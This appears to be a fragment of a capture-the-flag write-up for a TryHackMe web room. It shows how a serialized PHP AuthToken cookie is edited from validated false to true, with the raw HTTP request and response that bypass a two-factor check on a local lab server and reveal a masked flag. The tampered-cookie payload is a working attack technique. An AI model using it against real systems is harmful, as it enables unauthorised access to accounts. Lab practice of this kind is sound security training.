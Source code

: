 ```bash
        </div>

        <div class="mb-3">
          <label for="password" class="form-label">Password</label>
          <input type="password" name="password" class="form-control" id="password" required>
        </div>
...
```

<img width="1205" height="470" alt="image" src="https://github.com/user-attachments/assets/367efafa-5dee-488a-b135-32b307f6a1a2" />

<br>
<p>Set-Cookie: auth_token=<br>
  
- O%3A9%3A%22AuthToken%22%3A1%3A%7Bs%3A9%3A%22validated%22%3Bb%3A0%3B%7D;<br><code>O:9:"AuthToken":1:{s:9:"validated";b:0;};</code><br><br>
- O%3A9%3A%22AuthToken%22%3A1%3A%7Bs%3A9%3A%22validated%22%3Bb%3A1%3B%7D<br><code>O:9:"AuthToken":1:{s:9:"validated";b:1;}</code><p>


```bash
GET /management/2fa.php HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://127.0.0.1:5000/management/
Connection: keep-alive
Cookie: PHPSESSID=**************************; auth_token=O%3A9%3A%22AuthToken%22%3A1%3A%7Bs%3A9%3A%22validated%22%3Bb%3A1%3B%7D
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i


```


```bash
HTTP/1.1 200 OK
Date: Sat, 06 Sep 2025 xx:xx:xx GMT
Server: Apache/2.4.58 (Ubuntu)
Expires: Thu, 19 Nov 1981 xx:xx:xx GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 489
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
...
  <title>2FA Complete - TryBookMe</title>
  <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css" rel="stylesheet">
...
      <h4 class="alert-heading">Congratulations!</h4>
      <p>Here's the second flag: THM{********************************}</p>
...
```
